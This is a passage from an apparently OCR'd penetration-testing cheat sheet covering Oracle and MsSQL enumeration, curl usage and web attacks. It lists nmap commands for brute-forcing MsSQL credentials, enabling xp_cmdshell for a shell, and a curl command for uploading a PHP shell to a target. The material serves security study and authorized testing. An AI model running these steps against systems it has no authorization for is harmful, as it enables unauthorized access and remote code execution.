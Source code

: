 ```
nmap --script "oracle-tns-version" -p 1521 -T4 -sV $ip
```

### Enumerating MsSQL Server

MsSQL server runs on port 1433 and indicates an installation of **Microsoft SQL Server** which is a [relational database management system](https://en.wikipedia.org/wiki/Relational\_database\_management\_system) developed by [Microsoft](https://en.wikipedia.org/wiki/Microsoft).

#### Complete Enumeration

The below will reveal complete info about the MsSQL server installed and its parameters.

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
```

#### BruteForcing Users and Passwords

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
```

#### Logging in with credentials

```
mssqlclient.py domain/admin:pass@ip
```

#### Dropping a shell

```
SQL> enable_xp_cmdshell
```

### Using Curl for enumeration

#### Grabbing headers

```
curl --head [domain.com]
```

#### Sending post requests with form data.

Say we would like to send a post request with username and password from a login form

```
curl -d "username=admin&host=password" -X POST http://domain.com/login.php
```

#### Uploading files/shells

Using POST Method

```
curl -X POST -F "file=path-to-shell/shell.php" http://$ip/upload.php --cookie "cookie"
```
